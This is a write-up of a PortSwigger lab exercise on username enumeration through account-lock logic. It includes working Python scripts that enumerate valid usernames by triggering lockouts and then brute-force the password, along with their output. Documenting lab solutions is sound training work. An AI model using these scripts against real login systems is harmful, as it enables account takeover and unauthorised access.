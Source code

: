 # Username enumeration via account lock | Dec 22, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock), you'll learn: Username enumeration via account lock! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222015953.png)

**Let's try to login as an invalid user:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222020228.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222020241.png)

It displays `Invalid username or password.`.

**Let's try to use a python script to login as different users 5 times:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    listLoginRequestText = list()

    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)
    listLoginRequestText.append(requests.post(url, cookies=cookie, data=loginData).text)

    for request in listLoginRequestText:
        if 'Invalid username or password.' not in request:
            print(f'[+] Found user: {username}')

def main():
    url = 'https://0a5800d40365f484c07836ae00550058.web-security-academy.net/login'
    cookie = {'session': 'X0W6GBckB490eopZRS9bX6cI2QsFWb1v'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    for username in listUsername:
        thread = Thread(target=sendRequest, args=(url, cookie, username))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username_aclock.py 
[+] Found user: activestat
```

- Found user: `activestat`

**Let's check that account is locked or not!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222021005.png)

Yep, it's locked.

**Now, we can confirm that user `activestat` is exist, and we also able to brute force this account.**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'activestat',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username or password.' not in loginRequestText and 'You have made too many incorrect login attempts. Please try again in 1 minute(s).' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0a5800d40365f484c07836ae00550058.web-security-academy.net/login'
    cookie = {'session': 'X0W6GBckB490eopZRS9bX6cI2QsFWb1v'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_aclock.py
[+] Found password: monkey
```

- Found user `activestat`'s password: `monkey`

**Let's wait for a minute to let the account unlock and login as user `activestat`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222022442.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-7/images/Pasted%20image%2020221222022600.png)

We're user `activestat`!

# What we've learned:

1. Username enumeration via account lock